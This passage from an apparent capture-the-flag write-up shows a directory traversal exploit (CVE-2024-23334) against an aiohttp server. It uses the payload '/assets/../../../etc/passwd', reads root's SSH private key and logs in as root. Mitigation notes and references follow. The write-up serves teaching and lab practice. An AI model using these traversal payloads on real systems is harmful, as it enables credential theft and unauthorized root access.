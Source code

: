 It's a python server with `aihttp/3.9.1`

We google that and find it's vulnerable to directory traversal [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/cve-2024-23334)

The payload used on most POCs is `/static/../../../../etc/passwd`, I tried that but didn't work because we don't have static, what we have is `/assets/`

Using `/assets/../../../etc/passwd` gives us the file.

![passwd](6.png)

With that we can read the `/assets/../../../root/.ssh/id_rsa` file and connect as root.

```terminal
[★]$ ssh -i id_rsa root@10.10.11.38
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64

[...]

Last login: Fri Oct 11 14:06:59 2024
root@chemistry:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## **Prevention and Mitigation**

### CVE-2024-23346

`Pymatgen` had a critical security flaw in `from_transformation_str`()` before version 2024.2.20, allowing code execution through unsafe eval().

Update to the latest patch and maintain an active patch schedule for any patches that may be released in the future.

### CVE-2024-23334

`aiohttp` is an asynchronous HTTP client/server framework for `asyncio` and Python. When using `aiohttp` as a web server and configuring static routes, it is necessary to specify the root path for static files. Additionally, the option 'follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory. When 'follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even when symlinks are not present. Disabling follow_symlinks and using a reverse proxy are encouraged mitigations. Version 3.9.2 fixes this issue.

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2024-23346>

<https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f>

<https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346>

<https://nvd.nist.gov/vuln/detail/cve-2024-23334>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
